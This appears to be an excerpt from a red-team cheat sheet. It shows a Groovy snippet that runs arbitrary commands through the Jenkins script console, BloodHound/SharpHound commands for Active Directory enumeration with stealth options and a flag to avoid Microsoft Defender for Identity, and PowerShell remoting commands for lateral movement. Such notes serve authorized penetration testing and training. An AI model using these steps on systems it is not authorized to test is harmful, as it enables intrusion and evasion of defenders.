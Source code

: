 ### Feature Abuse

#### Jenkins

With admin access navigate to:

http://<jenkins_server>/scripts

In the script console, Groovy Scripts can be Executed

```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

_______________
## Domain Enumeration - Bloodhound

### Bloodhound Legacy

https://github.com/BloodHoundAD/BloodHound

### Bloodhound CE

https://github.com/SpecterOps/BloodHound

### Data Collectors
```powershell
. C:\AD\Tools\BloodHound-master\Collectors\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
```
or
```powershell
sharphound.exe
```
### Data Collectors -Stealth
```powershell
Invoke-BloodHound -Stealth
```
or
```powershell
SharpHound.exe --Stealth
```
or to avoid MDI
```powershell
Invoke-BloodHound -ExcludeDCs
```

_______________
## Lateral Movement
### Powershell Remoting
#### One-to-One - Useful Commands
```powershell
New-PSSession
```
```powershell
Enter-PSSession
```
#### One-to-Many - Useful Commands
```powershell
Invoke-Command
```